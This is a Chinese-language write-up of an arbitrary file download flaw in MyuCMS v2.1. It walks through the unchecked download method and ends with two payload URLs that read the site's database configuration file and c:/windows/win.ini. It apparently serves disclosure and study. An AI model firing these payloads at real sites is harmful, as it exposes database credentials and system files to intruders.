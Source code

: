 MyuCMS v2.1 前台任意文件下载
============================

一、漏洞简介
------------

二、漏洞影响
------------

MyuCMS v2.1

三、复现过程
------------

既然是文件下载，先在整个项目中搜索下 **download**
关键字，尝试看看能不能直接定位到关键代码。

通过搜索定位到 **bbs** 模块下的 **Index** 控制器的 **download** 方法。


![[../resource/MyuCMSv2.1前台任意文件下载/media/rId24.jpg]](https://pic.downk.cc/item/5e4266e52fb38b8c3c9e7e3d.jpg)

**download** 方法接受三个参数，这三个参数我们是完全可控的，单从
**download** 这个方法来看，无任何参数内容限制，直接将 **\$url** 和
**\$name** 两个参数传递给了 **Http** 类的 **download** 方法来执行下载。

若 **Http-\>download()**
方法中还未对参数内容进行限制，便会造成任意文件下载漏洞。

接下来，我们跟进 **Http-\>download()** 方法。

    static public function download ($filename, $showname='',$content='',$expire=180) {
            if(is_file($filename)) { //判断 $filename 是否为文件
                $length = filesize($filename); // 获取 $filename 的文件大小
            }elseif($content != '') {
                $length = strlen($content);
            }else {
                throw_exception($filename.L('下载文件不存在！')); // 若文件不存在抛出异常
            }
            if(empty($showname)) {
                $showname = $filename; // $showname 为下载后文件的名称。若未设置则与被下载文件同名
            }
            $showname = basename($showname); //获取路径中的文件名部分
            if(!empty($filename)) {
                $type = mime_content_type($filename); //获取文件的MIME类型
            }else{
                $type    =   "application/octet-stream";
            }
            //发送Http Header信息 开始下载
            header("Pragma: public");
            header("Cache-control: max-age=".$expire);
            //header('Cache-Control: no-store, no-cache, must-revalidate');
            header("Expires: " . gmdate("D, d M Y H:i:s",time()+$expire) . "GMT");
            header("Last-Modified: " . gmdate("D, d M Y H:i:s",time()) . "GMT");
            header("Content-Disposition: attachment; filename=".$showname);
            header("Content-Length: ".$length);
            header("Content-type: ".$type);
            header('Content-Encoding: none');
            header("Content-Transfer-Encoding: binary" );
            if($content == '' ) {
                readfile($filename); // 读取文件内容并输出，从而实现下载
            }else {
                echo($content);
            }
            exit();
        }

由如上代码我们可以看出，**Http-\>download()**
方法中同样**未对传入的参数进行内容限制**，只实现了下载的业务逻辑。

此处任意文件下载，结合 phar
反序列化，还可以造成任意文件删除和任意文件写入（仅linux下）。

### Payload

    Payload: http://www.0-sec.org/bbs/index/download?url=application/database.php&name=&local=1

    Payload: http://www.0-sec.org/bbs/index/download?url=c:/windows/win.ini&name=&local=1

参考链接
--------

> https://xz.aliyun.com/t/7271\#toc-0

